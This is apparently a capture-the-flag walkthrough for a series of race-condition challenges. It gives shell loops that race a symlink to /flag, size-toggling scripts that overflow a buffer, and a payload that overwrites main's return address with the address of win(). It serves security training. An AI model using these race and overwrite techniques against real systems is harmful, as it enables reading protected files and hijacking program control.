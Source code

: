# Race Condition

## babyrace_level1.0

- Run a script that executes 3 commands repeatedly:

    ```shell
    touch my_file
    ln -sf /flag my_file
    rm my_file
    ```

## babyrace_level1.1

- There is no hint, try the same method, it works!

## babyrace_level2.0

- A race condition with a tighter timing window to read the flag. The script for level 1 still works!

## babyrace_level2.1

- Repeating the challenge manually is hard to get the flag, run another script that repeats the challenge automatically:
    ```shell
    #!/bin/bash

    # Usage: ./repeat_challenge.sh 2.1
    for i in {0..100000}
    do
        /challenge/babyrace_level$1 my_file | grep 'pwn'
    done
    ```

## babyrace_level3.0

- Corrupt memory by exploiting a race condition

    ```
    This challenge will verify that the file's path does not include "flag".
    This challenge will verify that the file is not a symlink.
    This challenge will verify that the file is not larger than 256 bytes.
    ```

- First, input a simple file, the hint is: `Value of "win" variable: 0`. The program limits the size of the input file to 256 bytes, I guess that with a larger file we can overwrite the value of `win` to non-zero

- Use a script to change the size of `my_file` repeatedly, and run the challenge for a few times

    ```shell
    #!/bin/bash

    touch my_file
    for i in {0..100000}
    do
        printf 'a%.0s' {1..900} > my_file
        printf '' > my_file
    done
    ```

## babyrace_level3.1

- Use the script in level 3.0

## babyrace_level4.0

- In this level, we cannot guess anymore. By inspecting the assembly code of the challenge (we can use `gdb` or some other tools), we can see that there is a `win()` function, but it is never invoked in `main()`. What we need to do is to exploit the race condition to overwrite the return address of `main()` to the address of `win()`
- Here is some useful information:
    - `&win=0x4012f6`
    - `&buffer=$rbp-0x190` (i.e., `&ret_addr=&buffer+0x198`)
- In the script, we need to prepare a file with payload: `"a"*408+"\xf6\x12\x40\x00\x00\x00"`

## babyrace_level4.1

- Find the return address, and overwrite it with the address of `win()`, just like level 4.1
- Use a script to repeat the challenge: `./repeat_challenge.sh 4.1 | grep "pwn"`
- Then, wait
